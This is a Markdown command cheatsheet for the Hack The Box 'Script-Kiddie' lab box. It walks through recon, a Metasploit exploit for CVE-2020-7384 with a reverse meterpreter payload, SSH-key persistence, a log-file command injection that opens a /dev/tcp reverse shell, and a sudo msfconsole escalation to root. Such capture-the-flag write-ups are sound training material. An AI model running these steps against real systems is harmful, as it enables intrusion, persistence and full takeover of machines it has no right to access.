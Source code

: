 # HTB: Script-Kiddie — Command Cheatsheet

## 📈 Box Info
- **Name:** Script-Kiddie
- **IP:** 10.10.10.226
- **OS:** Linux
- **Difficulty:** Easy

---

## 🔍 Recon
```bash
nmap -sV -sC -oA scans/nmap-alltcp 10.10.10.226
```
- **Open Ports:**
  - 22 (SSH)
  - 5000 (HTTP - Werkzeug server)

```bash
gobuster dir -u http://10.10.10.226:5000/ -w /usr/share/dirb/wordlists/small.txt
```

---

## 🕵️ Exploitation - CVE-2020-7384 (APK Template Injection)
### Description:
- Exploits `msfvenom` APK template injection vulnerability
- Vulnerable webapp allows APK creation with arbitrary commands

### Metasploit Module
```bash
use exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection
```
- Set payload:
```bash
set PAYLOAD android/meterpreter/reverse_tcp
set LHOST 10.10.14.6
set LPORT 9001
set SRVHOST 10.10.14.6
```
- Run:
```bash
exploit
```
- Upload APK via web UI ➝ get shell back

---

## ⚙️ Initial Foothold Shell
### Reverse Shell Upgrade
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo; fg
reset
export TERM=xterm-256color
```

### SSH Persistence (Optional)
```bash
mkdir ~/.ssh
echo "<your public key>" > ~/.ssh/authorized_keys
chmod 700 ~/.ssh
chmod 600 ~/.ssh/authorized_keys
```

---

## 👀 Enumeration - User Privilege Escalation
### Hacker Submission Injection
```bash
echo "x x x 127.0.0.1; bash -c 'bash -i >& /dev/tcp/10.10.14.6/9002 0>&1' # ." > logs/hackers
```
- Triggers a reverse shell as the next user

---

## 🔒 Root Privilege Escalation
### Sudo Permissions Check
```bash
sudo -l
```
- Allowed: `/opt/metasploit-framework-6.0.9/msfconsole` without password

### Exploit
```bash
sudo /opt/metasploit-framework-6.0.9/msfconsole
```
- Within msfconsole:
```bash
!bash
```
- Gain root shell

---

## 🔑 Flags
```bash
cat /home/kiddie/user.txt
cat /root/root.txt
```

---

## 📂 Resources
- [Exploit-DB CVE-2020-7384](https://www.exploit-db.com/exploits/49445)
- [Rapid7 Module: metasploit_msfvenom_apk_template_cmd_injection](https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/)
